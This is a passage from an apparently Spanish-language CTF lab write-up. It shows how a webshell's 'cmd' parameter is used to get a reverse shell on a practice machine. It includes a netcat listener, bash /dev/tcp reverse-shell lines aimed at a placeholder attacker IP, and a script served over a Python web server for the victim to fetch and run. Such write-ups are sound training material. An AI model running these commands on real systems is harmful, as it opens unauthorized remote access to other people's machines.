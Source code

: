 Como data, se utiliza el parámetro **cmd** y el comando a ejecutar.

Entonces, es posible que podamos mandarnos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Escribe el siguiente comando y ejecútalo:
```bash
bash+-i+>%26+/dev/tcp/Tu_IP/443+0>%261
```

Pero no obtendremos nada, pues algo falla cuando intentamos ejecutar este comando:

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura10.png">
</p>

Algo que podemos hacer es, guardar nuestra **Reverse Shell** en un archivo dentro de nuestra máquina y alzar un servidor web con **Python3**, para que desde la **WebShell** ejecutemos ese script y obtengamos la **Reverse Shell**.

Entonces, guarda el mismo comando en un script:
```bash
nano revShell.sh
----------------
bash -i >& /dev/tcp/Tu_IP/443 0>&1
```

Levanta un servidor web con **Python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora, tenemos dos opciones:
* Descargar el script de la **Reverse Shell** en la máquina víctima y luego ejecutarlo desde ahí.
* Ejecutar el script de manera remota y obtener la **Reverse Shell**.
